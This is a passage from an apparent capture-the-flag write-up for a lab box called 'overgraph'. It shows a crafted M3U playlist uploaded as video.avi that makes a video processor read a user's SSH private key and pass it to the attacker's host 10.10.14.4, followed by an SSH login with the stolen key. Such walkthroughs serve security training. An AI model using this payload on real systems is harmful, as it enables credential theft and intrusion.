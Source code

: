 The output of `/etc/passwd` reveals the user `user` is present, have a home directory and a `/bin/bash` shell. We should target him and try to extract his SSH keys. We change the `video.avi` file to:
```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://10.10.14.4/initial.m3u?filename=/home/user/.ssh/id_rsa
#EXT-X-ENDLIST
```
Upload again!

Cool, we got the SSH key of `user`, we can use it to SSH in now, we just need to add the line breaks formating the file and give its permissions:
```bash
$ chmod 600 user.idrsa
$ ssh -i user.idrsa user@10.10.11.157
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-107-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 17 Jun 2022 03:19:53 AM UTC

  System load:           0.0
  Usage of /:            68.8% of 4.84GB
  Memory usage:          11%
  Swap usage:            0%
  Processes:             220
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.157
  IPv6 address for eth0: dead:beef::250:56ff:feb9:e23c

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

18 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jun 16 23:51:10 2022 from 10.10.14.4
user@overgraph:~$
```
